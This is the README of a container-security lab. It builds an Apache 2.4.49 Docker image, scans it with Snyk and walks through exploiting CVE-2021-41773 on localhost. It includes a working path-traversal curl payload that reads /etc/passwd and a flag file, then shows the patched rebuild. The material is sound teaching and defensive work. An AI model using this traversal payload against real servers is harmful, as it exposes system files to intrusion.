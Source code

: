 # Snyk Vulnerability Scanning: Readme

This scenario involves building a Docker image which includes a vulnerabile package, installed via the Dockerfile.

## Vulnerable Packages

#### CVE-2021-41773

CVE-2021-41773 is a CVE within the Apache HTTP Server, specifically version 2.4.49. 

> A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

[National Institute of Standards and Technology](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)


## CVE Lab

This lab contains a vulnerable Dockerfile, which includes the Apache 2.4.49 package and its associated configuratons which this CVE required to be installed.


## Scanning with Snyk 
***This step is already done on the Playground instances***

To use Snyk, you must first:

* Sign up for Snyk
* Install the CLI agent using Node (must have NPM installed) `npm install -g snyk`
* Authenticate with snyk `snyk auth "<API KEY>"` (this is already handled on the playground instances)

You can now start to scan local images using Snyk. Snyk will analyise the dependencies installed in the image, and scan them against its backend database of vulnerabilities.

Snyk is already installed on the Playground instances, so we can skip this step.


## Building and Scanning Vulnerable Image

There are two directories within the Docker directory, both containing a Dockerfile and a set of dependencies.

* vulnerable
* safe.

To build the vulnerable image, run the following command:

```bash
$ cd workdir/Hands-on-with-Container-Security/snyk/docker
$ bash build.sh
```

This will create a Docker image using the Dockerfile located in the `vulnerable` directory, and tag it `apache-vulnerable`.

Now you have built the vulnerable Docker image, it's time to scan this using Snyk. To scan a Docker image, run the following:

```bash
$ snyk container test apache-vulnerable


Testing apache-vulnerable...


✗ Low severity vulnerability found in apache2/apache2-bin
  Description: Cross-site Scripting (XSS)
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-391822
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...

✗ High severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728102
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ High severity vulnerability found in apache2/apache2-bin
  Description: NULL Pointer Dereference
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728105
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ Critical severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1729585
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.51-1



Organization:      ecsdcmhrpr
Package manager:   deb
Project name:      docker-image|apache-vulnerable
Docker image:      apache-vulnerable
Platform:          linux/amd64
Licenses:          enabled

Tested 146 dependencies for known issues, found 55 issues.

Pro tip: use `--file` option to get base image remediation advice.
Example: $ snyk test --docker apache-vulnerable --file=path/to/Dockerfile

To remove this message in the future, please run `snyk config set disableSuggestions=true`

```


## Exploit

We've shown how to detect the vulnerable package, but lets now show you how to exploit it!

First up, start up a new container from the created image

```bash
$ docker run -d -p 9000:80  apache-vulnerable
```

This will start a new container, using the apache-vulnerable image, mapping the port 9000 to the port run on the apache server within the container. The `-d` flag means it will run in the background.

Lets test we can connect to the server:

```bash
$ curl localhost:9000
```


Now, to run the exploit:

```bash
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

[playground@worker3-snyk ~]$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This will exploit a flaw in the directory traversal code of the Apache HTTPD server. IN this case, we will use this exploit to read the contents of the "/etc/passwd" file.

To actually retrieve the flag, we will change the command to print the contents of /etc/flag.txt:

```bash
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```


## Making it Safe

Now we've demonstrated the exploit and how to scan for the critical vulnerabilities used to run the exploit, lets go and make it safe.

Included in the `docker` directory is a directory called `safe` which includes patched versions of the apache dependencies.

Let's run the following command to build the safe image (apache-safe):

```bash
$ bash build_safe.sh
```

You can create a new container using this image (remember to stop the first one by running docker kill <ID>)

```bash
$ docker run -d -p 9000:80  apache-safe
```

Run the exploit:

```
$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```

And to scan the new image to confirm the vulnerability is no longer present:

```
$ snyk container test apache-safe
```
